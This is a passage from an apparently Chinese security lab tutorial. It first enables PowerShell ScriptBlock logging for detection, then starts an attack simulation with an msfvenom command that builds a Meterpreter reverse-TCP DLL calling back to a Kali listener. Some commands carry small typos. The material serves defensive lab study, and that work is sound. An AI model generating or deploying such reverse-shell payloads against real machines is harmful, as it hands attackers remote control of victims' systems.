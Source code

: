 **2.2 配置 PowerShell ScriptBlock 日志**  
PowerShell 日志类型：Module、ScriptBlock logging、Script Execution、Transcription。为了收集脚本执行日志，将配置并激活 ScriptBlock。以管理员运行 Powershell，执行如下命令：  
1）更改 powershell 执行策略，以允许后续配置更改；

```plain
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine
```

2）新建 ScriptBlockLogging 注册表路径；

```plain
New-Item-Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Force
```

3）新增 EnableScriptBlockLogging 属性为 DWORD 并设置为 1；

```plain
New-ItemProperty-Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Name EnableScriptBlockLogging -Value 1 -PropertyType DWord -Forc
```

4）开启日志记录

```plain
wevtutil sl "Microsoft-Windows-PowerShell/Operational" /e:true
```

**2.3 其他软件**

```plain
Process Hacker：实时分析；Wireshark：流量分析。
```

**3、攻击模拟**

**3.1 生成 dll 文件**  
（1）在 Kali VM 使用 msfvenom 生成 payload，msfvenom 是 Metasploit 框架中的组件。命令如下：

```plain
sudo msfvenom -p windows/meterpreter/reverse_tcp Lhost=192.168.26.130 Lport=88 -f dll > /home/hacker/Desktop/evil.dll
```

Lhost 表示监听的主机，此处代表 Kali 主机，  
Lport 表示监听的端口。 
\-f 生成的文件类型，此处是 dll。

成功执行后如下图所示：

[![](assets/1701606587-3d2278f40fcdcbd0e96623046a1bb855.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162624-feb90096-8522-1.png)
